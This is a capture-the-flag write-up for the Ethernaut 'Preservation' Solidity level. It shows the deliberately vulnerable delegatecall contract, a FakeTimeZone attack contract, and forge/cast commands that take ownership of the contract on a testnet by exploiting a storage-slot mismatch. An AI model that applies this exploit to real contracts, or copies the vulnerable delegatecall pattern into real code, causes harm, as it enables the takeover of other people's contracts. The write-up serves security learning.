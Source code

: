 ```yaml
---
title: "Preservation"
tags: ["Delegate Call", "Storage"]
reference: https://ethernaut.openzeppelin.com/level/16
---
```


# Description

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for delegatecall to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

# Solution

## Attack Idea

1. Exploit storage layout miss match between contracts

```sol
contract Proxy {
    uint256 a; // slot 0
    address b; // slot 1
}

contract Logic {
    address b; // slot 0
    uint256 a; // slot 1
}
```

If Proxy uses delegatecall to Logic, then Logic will treat slot 0 as address b, but Proxy stores uint256 a there. This mismatch causes incorrect reads/writes.

2. call `setSecondTime()` to `timeZone1Library` variable to our controlled contract `FakeTimeZone`

3. call `setFirstTime()` which will trigger delegatecall to `FakeTimeZone`'s `setTime` function. By setting the `FakeTimeZone`'s `storedTime` state variable to slot 2, we can modify the owner because of (1).

## FakeTimeZone contract

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract FakeTimeZone {
    address slot_0;  
    address slot_1;  
    uint256 storedTime; // map to Preservation's owner state variable

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

## Execution

1. create `FakeTimeZone` contract

```
tim@tim-virtual-machine ~/g/t/contracts (main)> forge create src/FakeTimeZone.sol:FakeTimeZone --rpc-url=$BASE_SEPOLIA_RPC --account deployer --broadcast
```

2. cast address to uint256

```
tim@tim-virtual-machine ~/g/t/contracts (main)> cast to-uint256 0x14dc67e5883Da53aA73DEc0C15E8bba13FbCc63A
0x00000000000000000000000014dc67e5883da53aa73dec0c15e8bba13fbcc63a
```

3. call `setSecondTime`

```
tim@tim-virtual-machine ~/g/t/contracts (main) [1]> cast send 0x42BDF2BC42613a0e3a638d2Efc3F11bA24fE943F "setSecondTime(uint256)" 0x00000000000000000000000014dc67e5883da53aa73dec0c15e8bba13fbcc63a --rpc-url $BASE_SEPOLIA_RPC --private-key
```

3. check if the address of timeZone1Library become FakeTimeZone address

```
tim@tim-virtual-machine ~/g/t/contracts (main)> cast storage 0x42BDF2BC42613a0e3a638d2Efc3F11bA24fE943F 0 --rpc-url $BASE_SEPOLIA_RPC
0x00000000000000000000000014dc67e5883da53aa73dec0c15e8bba13fbcc63a
```

4. call `setFirstTime`

```
tim@tim-virtual-machine ~/g/t/contracts (main)> cast send 0x42BDF2BC42613a0e3a638d2Efc3F11bA24fE943F "setFirstTime(uint256)" 0x000000000000000000000000B1473Ba227C4645501E0e05f4839b00ED8320d33 --rpc-url $BASE_SEPOLIA_RPC --private-key
```

5. check if the owner become player address

```
tim@tim-virtual-machine ~/g/t/contracts (main)> cast storage 0x42BDF2BC42613a0e3a638d2Efc3F11bA24fE943F 2 --rpc-url $BASE_SEPOLIA_RPC
0x000000000000000000000000b1473ba227c4645501e0e05f4839b00ed8320d33
```

# Lesson learnt

This example demonstrates why the library keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
